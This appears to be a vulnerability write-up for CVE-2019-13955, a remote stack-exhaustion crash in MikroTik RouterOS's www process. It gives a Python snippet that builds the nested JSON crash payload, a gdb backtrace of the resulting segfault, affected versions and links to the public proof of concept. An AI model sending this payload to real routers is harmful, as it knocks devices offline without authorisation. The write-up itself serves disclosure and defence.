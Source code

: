 ### CVE-2019-13955

#### Description

The `www` process suffers from a stack exhaustion vulnerability. By sending a crafted packet to the `www` process, an unauthenticated remote user can trigger a stack exhaustion vulnerability via recursive parsing of `JSON` containing message type M.

Based on the [`routeros`](https://github.com/tenable/routeros) repository, the main part of crafted message can be generated with a simple python code snippet.

```python
msg = "{M01:[M01:[]]}"
for _ in xrange(2000):
    msg = msg.replace('[]', "[M01:[]]")
```

Against long-term `6.43.16`, the poc resulted in the following crash captured by `gdb`.

```shell
(gdb) c
Continuing.
Reading /nova/lib/www/jsproxy.p from remote target...
Reading /lib/libucrypto.so from remote target...
[New Thread 279.366]

Thread 2 "www" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 279.366]
=> 0x7746792f:  call   0x774661a9
   0x77467934:  add    ebx,0x5028
   0x7746793a:  mov    DWORD PTR [ebp-0x3c],eax
   0x7746793d:  mov    DWORD PTR [ebp-0x44],edx
0x7746792f in ?? () from target:/nova/lib/www/jsproxy.p
(gdb) info inferiors
  Num  Description       Executable
* 1    process 279       target:/nova/bin/www
(gdb) bt
#0  0x7746792f in ?? () from target:/nova/lib/www/jsproxy.p
#1  0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#2  0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#3  0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#4  0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#5  0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#6  0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#7  0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#8  0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#9  0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#10 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#11 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#12 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#13 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#14 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#15 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#16 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#17 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#18 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#19 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#20 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#21 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#22 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#23 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
#24 0x774682a3 in ?? () from target:/nova/lib/www/jsproxy.p
...
```

The poc is available at [CVE-2019-13955](https://github.com/tenable/routeros/blob/master/poc/cve_2019_13955/src/main.cpp).

#### Affected Version

This vulnerability was initially found in long-term  `6.42.11`, and was fixed since stable `6.45.1`.

### References

+ [Two vulnerabilities found in MikroTik's RouterOS](https://seclists.org/fulldisclosure/2019/Jul/20)
+ [CVE-2019-13955](https://github.com/tenable/routeros/tree/master/poc/cve_2019_13955)
+ [routeros](https://github.com/tenable/routeros)





